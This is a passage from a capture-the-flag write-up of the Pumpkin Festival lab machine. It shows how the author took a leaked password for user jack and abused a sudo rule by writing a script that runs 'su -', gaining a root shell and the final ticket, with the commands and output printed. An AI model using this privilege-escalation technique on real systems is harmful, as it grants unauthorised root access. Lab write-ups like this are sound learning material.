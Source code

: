 ````
This program is free software; you can redistribute it and/or modify
[...]
````

Not bad, that was a very well hidden token number 10!

Since I got Jack's password from the page http://pumpkins.local/readme.html, I tried `sudo -l`. Maybe he can do something as root.

![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinFestival-Screenshot-18.png)

Neither the directory nor the file existed at this point in time, so I have a free hand what I create there.

Due to the advanced time and the smell of a root shell in the air, I was quite uncreative here:

````
jack@pumpkin:~$ mkdir pumpkins
jack@pumpkin:~$ cd pumpkins/
jack@pumpkin:~/pumpkins$ nano alohomora
jack@pumpkin:~/pumpkins$ cat alohomora 
#!/bin/sh
echo "Alohomora!"
su -
jack@pumpkin:~/pumpkins$ chmod +x alohomora
jack@pumpkin:~/pumpkins$ sudo ./alohomora 
Alohomora!
root@pumpkin:~# 
````

## Root-Shell :)

Securing the ticket was a pice of cake now.

I find it interesting that in the end I didn't need one of the tokens. But very satisfying that I found them all!

````
root@pumpkin:~# cd /root/
root@pumpkin:~# ls -la
total 36
drwx------  3 root root 4096 Jul 16  2019 .
drwxr-xr-x 22 root root 4096 Jul 12  2019 ..
-rw-r--r--  1 root root   55 Jul 15  2019 .bash_logout
-rw-r--r--  1 root root 3106 Feb 20  2014 .bashrc
drwx------  2 root root 4096 Jul 12  2019 .cache
-rw-------  1 root root  369 Jul 13  2019 .mysql_history
-rw-------  1 root root   89 Jul 16  2019 .nano_history
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-r--r--  1 root root 1688 Jul 15  2019 PumpkinFestival_Ticket
````
![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinFestival-Screenshot-20.png)

I really liked the series and it was tricky in some places!
Can be recommended without restriction! :)

Thanks for reading and happy pwning!

Contact -> [Twitter](https://twitter.com/_the_someone)
